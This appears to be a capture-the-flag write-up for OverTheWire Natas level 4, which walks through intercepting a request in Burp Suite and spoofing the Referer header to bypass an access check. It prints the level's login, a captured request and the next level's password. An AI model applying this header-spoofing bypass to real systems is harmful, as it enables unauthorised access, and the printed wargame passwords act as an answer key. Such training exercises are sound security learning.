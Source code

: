 ```yaml
---
layout: post
title: Overthewire Natas Level 4
subtitle: ... Write up
tags: [overthewire, natas, level4, overthewire-natas, writeup]
---
```


## Natas Level 4
* Username: natas4
* Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
* URL:      http://natas4.natas.labs.overthewire.org


**Step 1:** Let Login to the URL, you will see the message
> Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" Refresh page

**Step 2:** Let refresh the page, still the same. Read carefully the message again. It means that we are access the page from "" (nothing). What they need is before we access this page need to come from _"http://natas5.natas.labs.overthewire.org/"_. Oh wow. How could we do that?

**Step 3:** I Tried to refresh the page a fews time. The message changes to
> Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" Refresh page

**Step 4:** Strategy is to make to make the _You are visiting from ""_ become _You are visiting from "http://natas5.natas.labs.overthewire.org/"_. Open Burp Suite Community Edition. If you are unsure how to use Burp Suite, feel free to contact me, I can show you how to use it. Now, Let capure the GET request by Burp
```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas4.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc69616187b4a387a963c02e8d931c8f61524815545; __utma=176859643.1702516967.1524815549.1524815549.1524836149.2; __utmz=176859643.1524815549.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
Upgrade-Insecure-Requests: 1
```

**Step 5:** Look at the Referer, it is what we want to change. Edit _http://natas4.natas.labs.overthewire.org/index.php_ to _http://natas5.natas.labs.overthewire.org/_ and click Forward on Burp and Hooray! Come back to our Web broswer, we got
```html
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
Refresh page
```
